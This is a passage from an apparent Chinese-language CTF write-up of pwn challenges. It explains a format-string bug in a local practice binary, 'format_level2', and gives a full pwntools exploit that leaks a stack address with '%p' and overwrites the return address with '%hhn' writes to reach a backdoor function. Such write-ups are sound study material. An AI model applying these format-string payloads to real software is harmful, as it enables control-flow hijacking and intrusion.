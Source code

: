```python
def payload2():
    choose(3)
    io.recvuntil(b'Input what you want to talk: ')
    io.send(b'%1c%9$nA'+p32(0x804c01b))
    choose(1)

#payload1()
payload2()

io.interactive()
```

## format_level2

未开启PIE，与`level1`的差别是不会在打败dragon时直接调用`success`，因此需要我们手动修改`return address`为`success`

exp:

```python
#!/usr/bin/env python3
from pwn import*
context.log_level = 'debug'

io = process('./format_level2')

def choose(choice):
    io.recvuntil(b'Your choice: ')
    io.sendline(str(choice).encode())

#attach(io)
#pause()

#泄露栈地址
choose(3)
io.recvuntil(b'Input what you want to talk: ')
io.send(b'%p')

io.recvuntil(b'0x')
target = int(io.recv(8), 16) + 0x40
log.success('target ===> '+hex(target))

#修改返回地址
choose(3)
io.recvuntil(b'Input what you want to talk: ')
io.send(b'%23c%10$hhnA'+p32(target))

choose(3)
io.recvuntil(b'Input what you want to talk: ')
io.send(b'%147c%10$hhn'+p32(target+1))

#返回到后门
choose(4)

io.interactive()
```
